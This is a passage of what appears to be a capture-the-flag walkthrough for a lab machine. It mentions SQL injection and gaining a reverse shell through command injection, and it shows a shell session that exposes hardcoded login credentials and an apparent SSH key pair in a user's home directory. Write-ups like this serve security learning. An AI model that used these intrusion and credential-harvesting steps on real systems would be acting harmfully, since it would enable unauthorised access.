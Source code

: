 	.plt.got
	.text
	.fini
	.rodata
	.eh_frame_hdr
	.eh_frame
	.init_array
	.fini_array
	.dynamic
	.data
	.bss
	.comment
	```

	3. Also, threw SQL injection at the login page obtained earlier. Results are [here](web/val.req).

5. Let's get a reverse shell acting on the one path that is surest - *the cmd injection*.

## INITIAL ACCESS - REV SHELL

1. We get into the system as `www-data`. We can now explore the web directory. WEe wanted to check out the remaining `index.html` file for the credentials maybe. And we got it. But it is useless. Find out for you.

```bash
www-data@chocolate-factory:/var/www/html$ cat validate.php
cat validate.php
<?php
        $uname=$_POST['uname'];
        $password=$_POST['password'];
        if($uname=="charlie" && $password=="cn7824"){
                echo "<script>window.location='home.php'</script>";
        }
        else{
                echo "<script>alert('Incorrect Credentials');</script>";
                echo "<script>window.location='index.html'</script>";
        }
```

2. Now let's try to get a way to get to charlie. Looking into the `/home directory` would be great place to start.

```bash
www-data@chocolate-factory:/var/www/html$ cd /home
cd /home
www-data@chocolate-factory:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root    root    4096 Oct  1  2020 .
drwxr-xr-x 24 root    root    4096 Sep  1  2020 ..
drwxr-xr-x  5 charlie charley 4096 Oct  7  2020 charlie
www-data@chocolate-factory:/home$ cd charlie
cd charlie
www-data@chocolate-factory:/home/charlie$ ls -la
ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
```